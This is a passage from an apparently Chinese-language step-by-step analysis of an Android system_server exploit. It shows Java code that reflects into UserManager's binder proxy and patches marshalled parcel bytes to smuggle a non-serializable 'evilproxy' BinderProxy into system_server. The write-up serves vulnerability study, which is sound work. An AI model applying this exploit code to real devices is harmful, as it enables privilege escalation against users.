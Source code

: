 ```
                    fTRANSACTION_setApplicationRestrictions.getInt(null);

            UserManager um = (UserManager) ctx.getSystemService(Context.USER_SERVICE);
            Field fService = UserManager.class.getDeclaredField("mService");
            fService.setAccessible(true);
            Object proxy = fService.get(um);

            Class[] stSubclasses = clStub.getDeclaredClasses();
            System.out.println(stSubclasses.length+" inner classes found");
            clProxy = null;
            for (Class c: stSubclasses) {
                //it's android.os.IUserManager.Stub.Proxy
                System.out.println("inner class: "+c.getCanonicalName());
                if (c.getCanonicalName().equals("android.os.IUserManager.Stub.Proxy")) {
                    clProxy = c;
                }
            }

            Field fRemote = clProxy.getDeclaredField("mRemote");
            fRemote.setAccessible(true);
            mRemote = (IBinder) fRemote.get(proxy);//获得跨进程调用system_server的IBinder接口

            UserHandle me = android.os.Process.myUserHandle();
            setApplicationRestrictions(ctx.getPackageName(), b, me.hashCode());

```

第三步，向`system_server`传入不可序列化的Bundle参数

接下来，调用`setApplicationRestrictions`这个函数，并传入了之前打包`evilproxy`的Bundle数据作为参数。将该函数与Android源码中的`setApplicationRestrication`函数[6]对比，主要的区别在于将传入的Bundle数据进行了修改，将之前可序列化的`AAdroid.os.BinderProxy`对象修改为了不可序列化的`Android.os.BinderProxy`对象，这样就将不可序列化的Bundles数据，通过Binder跨进程调用，传入`system_server的Android.os.UserManager.setApplicationRestrictions`方法。

```
public void setApplicationRestrictions(java.lang.String packageName, android.os.Bundle restrictions, int
            userHandle) throws android.os.RemoteException
    {
        android.os.Parcel _data = android.os.Parcel.obtain();
        android.os.Parcel _reply = android.os.Parcel.obtain();
        try {
            _data.writeInterfaceToken(DESCRIPTOR);
            _data.writeString(packageName);
            _data.writeInt(1);
            restrictions.writeToParcel(_data, 0);
            _data.writeInt(userHandle);

            //修改AAdroid.os.BinderProxy为Android.os.BinderProxy

            byte[] data = _data.marshall();
            for (int i=0; true; i++) {
                if (data[i] == 'A' && data[i+1] == 'A' && data[i+2] == 'd' && data[i+3] == 'r') {
                    data[i] = 'a';
                    data[i+1] = 'n';
                    break;
                }
            }
            _data.recycle();
            _data = Parcel.obtain();
            _data.unmarshall(data, 0, data.length);
            /**
            通过Binder机制跨进程调用Android.os.UserManager.setApplicationRestrictions方法，
            向system_server传入的是实际不可序列化的Android.os.BinderProxy对象
```